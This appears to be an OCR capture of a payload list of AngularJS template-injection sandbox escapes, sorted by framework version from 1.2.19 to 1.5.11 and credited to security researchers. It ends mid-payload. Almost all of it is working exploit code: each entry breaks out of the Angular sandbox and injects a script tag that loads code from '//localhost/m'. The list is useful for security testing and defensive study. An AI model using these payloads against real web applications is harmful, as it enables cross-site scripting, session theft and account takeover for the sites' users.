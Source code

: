 1.2.19 (FireFox) by Mathias Karlsson

```javascript
{{
    toString.constructor.prototype.toString=toString.constructor.prototype.call;
    ["a",'eval("var _ = document.createElement(\'script\');
    _.src=\'//localhost/m\';
    document.getElementsByTagName(\'body\')[0].appendChild(_)")'].sort(toString.constructor);
}}
```

1.2.20 - 1.2.29 by Gareth Heyes (PortSwigger)

```javascript
{{
    a="a"["constructor"].prototype;a.charAt=a.trim;
    $eval('a",eval(`
    var _=document\\x2ecreateElement(\'script\');
    _\\x2esrc=\'//localhost/m\';
    document\\x2ebody\\x2eappendChild(_);`),"')
}}
```

1.3.0 - 1.3.9 by Gareth Heyes (PortSwigger)

```javascript
{{
    a=toString().constructor.prototype;a.charAt=a.trim;
    $eval('a,eval(`
    var _=document\\x2ecreateElement(\'script\');
    _\\x2esrc=\'//localhost/m\';
    document\\x2ebody\\x2eappendChild(_);`),a')
}}
```

1.4.0 - 1.5.8 by Gareth Heyes (PortSwigger)

```javascript
{{
    a=toString().constructor.prototype;a.charAt=a.trim;
    $eval('a,eval(`var _=document.createElement(\'script\');
    _.src=\'//localhost/m\';document.body.appendChild(_);`),a')
}}
```

1.5.9 - 1.5.11 by Jan Horn (Cure53, now works at Google Project Zero)

```javascript
{
  {
    c = "".sub.call;
    b = "".sub.bind;
    a = "".sub.apply;
    c.$apply = $apply;
    c.$eval = b;
    op = $root.$$phase;
    $root.$$phase = null;
    od = $root.$digest;
    $root.$digest = {}.toString;
    C = c.$apply(c);
    $root.$$phase = op;
    $root.$digest = od;
    B = C(b, c, b);
    $evalAsync(
      "astNode=pop();astNode.type='UnaryExpression';astNode.operator='(window.X?void0:(window.X=true,eval(`var _=document.createElement(\\'script\\');_.src=\\'//localhost/m\\';document.body.appendChild(_);`)))+';astNode.argument={type:'Identifier',name:'foo'};"
    );
    m1 = B($$asyncQueue.pop().expression, null, $root);
```